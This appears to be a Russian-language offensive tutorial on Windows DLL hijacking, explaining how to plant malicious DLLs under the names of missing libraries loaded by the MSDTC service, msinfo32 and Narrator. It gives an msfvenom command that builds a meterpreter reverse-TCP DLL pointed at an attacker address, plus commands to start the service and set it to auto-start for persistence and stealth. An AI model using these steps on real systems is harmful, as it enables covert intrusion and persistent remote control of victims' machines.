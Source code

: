 В этом методе мы пытаемся замаскироваться под библиотеку DLL, которая отсутствует в процессе Windows, чтобы выполнить произвольный код и остаться скрытым. Возможности атаки, связанные с перехватом библиотеки DLL, огромны и зависят от версии операционной системы и установленного программного обеспечения. Однако некоторые из наиболее заметных, которые могут быть использованы в Windows 7 и Windows 10, описаны тут.

### MSDTC
The Distributed Transaction Coordinator - это служба Windows, отвечающая за координацию транзакций между базами данных (SQL Server) и веб-серверами. При запуске эта служба пытается загрузить следующие три DLL-файла из System32.

Мы также можем видеть это из реестра:
https://imgur.com/a/GmpckX7

Папка System32 не содержит файла `oci.dll` в обычных Windows. 
Это дает возможность вставить в эту папку произвольную библиотеку DLL с идентичным именем(необходимы права админа), чтобы наш код мог быть запущен. DLL-файлы с payload могут быть созданы с помощью Metasploit `msfvenom` или любой другой C2.

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.22 LPORT=1234 -f dll > oci.dll

После этого мы загрузим наш вредоносный DLL-файл в папку `%systemroot%\system32` И просто попробуем запустить службу.

    net start msdtc

Теперь давайте посмотрим, заинжектина ли наша dll из process explorer или нет:
https://imgur.com/a/ITBF2nH

как вы можете видеть, наша dll запускается.
теперь мы можем настроить ее на запуск при загрузке, чтобы сделать persistence:

    sc qc msdtc
    sc config msdtc start= auto

### MSINFO

Microsoft system information tool отвечает за сбор информации об hardware, software и sys components. В версиях Windows, таких как 8.1 и 10, этот процесс пытается загрузить отсутствующую библиотеку DLL из System32 под названием `fveapi.dll`.

Установка библиотеки DLL в этот каталог с тем же именем, что и у нее, приведет к загрузке библиотеки DLL в процесс `msinfo32.exe`
https://imgur.com/a/Qz79sXn

### Narrator

Microsoft Narrator - это приложение для чтения с экрана в среде Windows. 
Jтсутствует DLL, связанная с настройками локализации `MSTTSLocEnUS.DLL`, которая также может быть использована для выполнения произвольного кода. DLL отсутствует по следующему пути: `C:\Windows\System32\Speech\Engines\TTS\MSTTSLocEnUS.DLL`

Таким образом, мы можем разместить там нашу dll, когда процесс запустится Narrator.exe библиотека DLL будет загружена в этот процесс, как это видно из Process Explorer, и получит persistence access:
https://imgur.com/a/KvLICzS
